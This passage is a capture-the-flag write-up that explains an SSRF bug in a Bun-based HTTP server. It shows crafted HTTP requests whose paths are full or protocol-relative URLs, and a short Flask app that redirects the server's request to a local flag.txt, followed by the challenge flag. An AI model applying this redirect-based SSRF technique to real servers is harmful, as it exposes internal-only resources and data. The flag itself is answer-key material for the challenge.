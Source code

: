<img src="/static/ictf-readme2/a.png" width="600px">

The error message surprised me because it was only taking the path (`a/`) and processing that as a URL. My gears starting turning and I attempted the following request:
```
GET http://google.com/ HTTP/1.1
Host: localhost
Connection: keep-alive

```

<img src="/static/ictf-readme2/google.png" width="300px">

As you can see in the screenshot above, the `const url` was JUST `google.com` and not anything from localhost/the server. I still didn't know where this was going but it was interesting behavior. You can see that the `pathname` and `search` attributes are still `'/'` and `''`, so a request to `http://localhost:3000/` was made and `Hello World!` was returned. I started playing with this some more and messing with it and got even more interesting results:
```
GET //google.com/ HTTP/1.1
Host: localhost
Connection: keep-alive

```

<img src="/static/ictf-readme2/google2.png" width="300px">

When I took out the protocol, it took `//google.com/` as a path, but then when this was thrown into the request that's supposed to go to `localhost:3000`, it was taken as a full URL, so the second argument (`http://localhost:3000/`) was completely ignored. This meant that the second request was actually going to `google.com` instead of `localhost`, and this was confirmed by me seeing the HTML for Google in my HTTP response. 

This gave me the ability to perform SSRF in the webserver. Normally SSRF is used to send requests to internal-only servers, but in this case that was the intended functionality and I still couldn't request the `/flag.txt` path without Server 2 catching it. However, there are a number of tricks used in unleashing the full potential of SSRF, one of which is requesting an external page that redirects to a local page. 

I spun up a quick Flask webapp on my public server so that whenever you requested `http://justinapplegate.me:3333/`, it would redirect you to `http://localhost:3000/flag.txt`. This way, the request sent from Server 2 would go to my webserver but then be redirected to the `flag.txt` page and I could see the flag. I sent the following HTTP request and retrieved the flag:

<img src="/static/ictf-readme2/solve.png" width="700px">

```python
# Flask app on my webserver
from flask import Flask, request, redirect
app = Flask(__name__)

@app.route('/', methods=['GET'])
def main():
    return redirect('http://localhost:3000/flag.txt')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=3333, threaded=True)
```

**Flag** - `ictf{just_a_funny_bug_in_bun_http_handling}`